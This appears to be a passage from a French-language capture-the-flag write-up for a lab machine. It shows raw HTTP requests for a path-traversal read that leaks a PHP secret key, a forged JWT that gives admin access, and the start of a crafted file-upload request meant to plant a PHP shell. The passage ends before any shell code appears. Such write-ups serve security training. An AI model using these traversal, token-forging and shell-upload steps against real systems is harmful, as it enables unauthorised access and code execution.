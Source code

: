 
```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 34


book=../portal/authController.php&method=1
```

Nous avons obtenu la secret key en réponse:


```sh
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
```

Avec la secret key que nous venons de trouver, nous allons créer un nouveau ``jeton jwt`` et nous obtenons le jeton suivant:


```sh
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
```


Maintenant, allez-vous créer un compte, lorsque vous vous connectez, F12, puis Stockage, et actualisez, cela ressemble à ceci:


![hack](https://media.discordapp.net/attachments/490431433559506954/834032042416013392/unknown.png)


Nous pouvons voir que nous avons accès au ``Panel Admin`` (paul)


![hack](https://media.discordapp.net/attachments/490431433559506954/834032319269437440/unknown.png)


Ok now go to file management and upload a php script to a file (maybe like reverseshell.html) and intercept with burpsuite and change the .zip at the bottom to .php if you can't find the title and the author in a valid file book. As the "upload" button does not work, view the following page to makeup file upload request package by yourself.


```sh
http://10.10.10.228/portal/assets/js/files.js
```

```sh
POST /portal/includes/fileController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=paul47200b180ccd6835d25d034eeb6e6390; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 295


------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.html"
```